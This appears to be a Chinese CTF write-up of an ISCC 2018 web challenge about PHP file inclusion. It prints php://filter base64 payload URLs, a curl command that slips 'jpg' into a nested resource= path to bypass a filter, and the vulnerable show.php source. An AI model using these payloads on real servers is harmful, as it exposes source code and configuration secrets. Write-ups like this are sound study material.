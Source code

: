 http://54.222.188.152:1/index.php?action=login.php

推测文件包含 访问：

http://54.222.188.152:1/index.php?action=php://filter/read=convert.base64-encode/resource=login.php

得到源码

贪婪包含

iscc2018 的一道题目,打开题目





查看源码



知道这里调用 show.php?img=1.jpg 访问,并修改 1 的值



大概可以猜测 文件包含漏洞，尝试

img=php://filter/read=convert.base64-encode/resource=show.php

但是不行

题目的坑点在于还需要包含 jpg，这就是贪婪包含所在，也就是后台某处代码所致，

curl http://118.190.152.202:8006/show.php?img=php://filter/resource=jpg/resource=show.php

 
<?php
error_reporting(0);
ini_set('display_errors','Off');
include('config.php');
$img = $_GET['img'];
if(isset($img) && !empty($img))
{
    if(strpos($img,'jpg') !== false)
    {
        if(strpos($img,'resource=') !== false && preg_match('/resource=.*jpg/i',$img) === 0)
        {
            die('File not found.');
        }
        preg_match('/^php:\/\/filter.*resource=([^|]*)/i',trim($img),$matches);
        if(isset($matches[1]))
        {
            $img = $matches[1];
        }
        header('Content-Type: image/jpeg');
        $data = get_contents($img);
        echo $data;
    }
    else
    {
        die('File not found.');
    }
}
else
{
    ?>
    <img src="1.jpg">
    <?php
}
?>
1、开头包含了 config.php
